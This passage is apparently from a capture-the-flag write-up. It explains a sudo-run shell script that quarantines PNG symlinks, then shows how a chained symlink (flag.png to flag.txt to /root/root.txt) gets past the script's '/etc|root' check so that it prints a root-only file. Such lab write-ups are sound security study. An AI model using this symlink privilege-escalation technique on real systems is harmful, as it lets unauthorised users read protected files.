 ```shell
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

The script checks if a PNG file passed as an argument is a symbolic link. If it is, it verifies whether the link points to critical directories such as `/etc` or `/root`. 
- If it does, the script removes the link. 
- If not, it moves the link to a quarantine directory and, optionally, displays its content. 
If the file is not a PNG, the script terminates with an error.

First, I'll create a `flag.txt` that will point to `/root/root.txt`:

```shell
cd
ln -s /root/root.txt flag.txt
```

Now I'll make a shortcut `flag.png` that will point to `flag.txt`, so when you open `flag.png` it will lead to `/root/root.txt`:

```shell
ln -s /home/bob/flag.txt flag.png
```

Finally, I'll execute the script with the `flag.png`:

```shell
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/flag.png
```

### Root flag

> Got root flag :D

![](Pasted%20image%2020250129192146.png)

==Machine pwned!==